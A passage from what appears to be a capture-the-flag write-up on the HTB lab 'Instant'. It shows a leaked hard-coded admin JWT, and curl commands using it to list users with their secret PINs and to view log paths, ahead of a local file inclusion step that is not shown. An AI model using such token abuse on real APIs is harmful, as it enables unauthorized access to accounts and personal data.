 A test function was left in with a jwt available. This should allow me to probe the API further.

```bash
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA

{
  "id": 1,
  "role": "Admin",
  "walId": "f0eca6e5-783a-471d-9d8f-0162cbc900db",
  "exp": 33259303656
}
```

# User as shirohige

## API LFI

Through this user interface I can add the authorize token (the jwt we found) and use some of the apps intended functionality. First I want to register and login, and I'll use the web ui initially here to show it off for all unfamiliar.

![register request]({{ page.img }}_07_swagger_register.png)

![register response]({{ page.img }}_08_swagger_register_response.png)

![login request]({{ page.img }}_09_swagger_login.png)

![login response]({{ page.img }}_10_swagger_login_response.png)

Successful login that produces a jwt. Now my eye turns to the admin api options of users, logs and log.

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/list/users" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"

{"Status":200,"Users":[{"email":"admin@instant.htb","role":"Admin","secret_pin":87348,"status":"active","username":"instantAdmin","wallet_id":"f0eca6e5-783a-471d-9d8f-0162cbc900db"},{"email":"shirohige@instant.htb","role":"instantian","secret_pin":42845,"status":"active","username":"shirohige","wallet_id":"458715c9-b15e-467b-8a3d-97bc3fcf3c11"},{"email":"raccoon@raccoon.xyz","role":"instantian","secret_pin":77777,"status":"active","username":"raccoon","wallet_id":"e8fdb478-28df-4a03-a216-ba30b4ef058d"}]}
```

Admin jwt works as intended. Next I will check logs to see what logs are available to view.

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/view/logs" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"

{"Files":["1.log"],"Path":"/home/shirohige/logs/","Status":201}
```
